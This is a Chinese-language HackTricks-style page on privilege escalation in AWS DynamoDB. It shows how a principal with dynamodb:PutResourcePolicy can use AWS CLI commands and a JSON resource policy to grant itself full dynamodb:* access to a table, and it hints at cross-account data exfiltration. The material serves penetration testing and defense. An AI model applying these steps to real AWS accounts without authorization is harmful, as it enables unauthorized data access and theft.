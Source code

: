 # AWS - DynamoDB Privesc

{{#include ../../../banners/hacktricks-training.md}}

## dynamodb

有关dynamodb的更多信息，请查看：

{{#ref}}
../aws-services/aws-dynamodb-enum.md
{{#endref}}

### `dynamodb:PutResourcePolicy`，可选的 `dynamodb:GetResourcePolicy`

自2024年3月起，AWS为DynamoDB提供*基于资源的策略*（[AWS News](https://aws.amazon.com/about-aws/whats-new/2024/03/amazon-dynamodb-resource-based-policies/)）。

因此，如果您对一个表具有`dynamodb:PutResourcePolicy`，您可以轻松地授予自己或任何其他主体对该表的完全访问权限。

将`dynamodb:PutResourcePolicy`授予随机主体通常是意外发生的，如果管理员认为授予`dynamodb:Put*`只会允许主体将项目放入数据库中——或者如果他们在2024年3月之前授予了该权限集...

理想情况下，您还应该拥有`dynamodb:GetResourcePolicy`，这样您就不会覆盖其他潜在的重要权限，而只是注入您所需的附加权限：
```bash
# get the current resource based policy (if it exists) and save it to a file
aws dynamodb get-resource-policy \
--resource-arn <table_arn> \
--query 'Policy' \
--output text > policy.json
```
如果您无法检索当前策略，请使用此策略，该策略授予您的主体对表的完全访问权限：
```json
{
"Version": "2012-10-17",
"Statement": [
{
"Sid": "FullAccessToDynamoDBTable",
"Effect": "Allow",
"Principal": {
"AWS": "arn:aws:iam::<ACCOUNT_ID>:<USER_OR_ROLE>/<USERNAME_OR_ROLENAME>"
},
"Action": [
"dynamodb:*"
],
"Resource": [
"arn:aws:dynamodb:<REGION>:<AWS_ACCOUNT_ID>:table/<TABLENAME>"
]
}
]
}
```
如果您需要自定义，这里是所有可能的DynamoDB操作的列表：[AWS Documentation](https://docs.aws.amazon.com/amazondynamodb/latest/APIReference/API_Operations.html)。这里是可以通过基于资源的策略允许的所有操作的列表*以及这些操作中哪些可以跨账户使用（考虑数据外泄！）*：[AWS Documentation](https://docs.aws.amazon.com/amazondynamodb/latest/developerguide/rbac-iam-actions.html)

现在，准备好策略文档`policy.json`，放置资源策略：
```bash
# put the new policy using the prepared policy file
# dynamodb does weirdly not allow a direct file upload
aws dynamodb put-resource-policy \
--resource-arn <table_arn> \
--policy "$(cat policy.json)"
```
现在，您应该拥有所需的权限。

### 后期利用

据我所知，**仅通过拥有一些 AWS `dynamodb` 权限，没有其他直接的方法可以提升权限**。您可以**从表中读取敏感**信息（可能包含 AWS 凭证）并**在表中写入信息**（这可能触发其他漏洞，例如 lambda 代码注入……），但所有这些选项在**DynamoDB 后期利用页面**中已经考虑过：

{{#ref}}
../aws-post-exploitation/aws-dynamodb-post-exploitation.md
{{#endref}}

### TODO: 通过数据流读取数据

{{#include ../../../banners/hacktricks-training.md}}
